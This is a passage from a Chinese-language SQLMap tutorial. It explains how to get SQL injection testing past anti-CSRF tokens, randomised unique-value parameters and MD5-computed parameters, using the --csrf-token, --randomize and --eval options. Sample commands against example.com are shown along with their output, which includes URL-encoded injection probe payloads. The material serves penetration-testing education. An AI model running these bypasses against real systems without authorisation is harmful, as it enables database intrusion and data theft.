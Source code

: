 然而，SQLMap 提供了可以帮助绕过反 CSRF 防护的选项。其中最重要的选项是 **`--csrf-token`**。通过指定令牌参数名称，SQLMap 将自动尝试解析目标响应内容并搜索新的令牌值，以便在下一个请求中使用。

此外，即使在用户没有通过 `--csrf-token` 明确指定令牌名称的情况下，如果提供的某个参数包含任何常见的子字符串（即 `csrf`, `xsrf`, `token`），用户也会被提示是否要在后续请求中自动更新它：


```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

### 唯一值绕过 (Unique Value Bypass)

在某些情况下，Web 应用程序可能只要求在预定义参数中提供唯一值。这种机制类似于上面描述的反 CSRF 技术，不同之处在于无需解析网页内容。因此，通过简单地确保每个请求对于预定义参数都有一个唯一值，Web 应用程序可以阻止 CSRF 尝试，同时也能阻止一些自动化工具。为此，应使用 **`--randomize`** 选项，指向包含应在发送前随机化的值的参数名称：


```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

### 计算参数绕过

另一种类似的机制是 Web 应用程序期望基于其他参数值计算出正确的参数值。最常见的是，一个参数值必须包含另一个参数值的消息摘要（例如 `h=MD5(id)`）。为了绕过这一点，应使用 **`--eval`** 选项，在请求发送到目标之前，对有效的 Python 代码进行求值：


```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%3D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

